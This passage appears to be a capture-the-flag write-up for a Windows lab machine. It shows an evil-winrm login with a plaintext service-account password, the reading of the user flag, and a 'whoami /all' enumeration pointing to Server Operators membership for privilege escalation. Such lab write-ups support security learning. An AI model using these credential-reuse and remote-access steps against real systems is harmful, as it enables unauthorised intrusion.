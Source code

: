 # Foothold
### Access as svc-printer using evil-winrm
We can now try the credentials we found to get access using evil-winrm:

```shell
evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'
```

It worked! We got access as svc-printer:

```shell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```

### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\svc-printer\Desktop\user.txt
```

# Privilege Escalation
### Enumerating svc-printer privileges and group memberships
We will start enumerating the privileges and group memberships of the svc-printer user:

```shell
whoami /all
```

```shell

USER INFORMATION
----------------

User Name          SID
================== =============================================
return\svc-printer S-1-5-21-3750359090-2939318659-876128439-1103


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
```